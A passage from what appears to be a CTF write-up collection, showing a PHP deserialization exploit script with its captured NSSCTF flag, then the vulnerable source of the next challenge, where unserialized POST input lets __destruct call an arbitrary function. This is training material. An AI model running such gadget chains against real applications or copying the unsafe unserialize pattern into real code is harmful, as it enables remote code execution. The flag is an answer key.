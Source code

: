 exp

```php
<?php

class w44m
{
    private $admin = 'w44m';
    protected $passwd = '08067';//要和题目中的对应;否则是一个新的对象flag出不来
}

class w22m
{
    public $w00m;
}

class w33m
{
    public $w00m;
    public $w22m;
}

$a = new w22m;
$a->w00m = new w33m;
$a->w00m->w00m = new w44m;
$a->w00m->w22m = "Getflag";
echo urlencode(serialize($a));
```

flag

```
NSSCTF{eb431e94-6eeb-4948-8306-37b345edc41b}
```

#### [SWPUCTF 2022 新生赛]1z_unserialize

rce、简单反序列化

https://www.nssctf.cn/problem/2883

题目

```php
<?php

class lyh
{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;

    function __destruct()
    {
        $a = $this->lt;

        $a($this->lly);
    }


}

unserialize($_POST['nss']);
highlight_file(__FILE__);
?> 
```
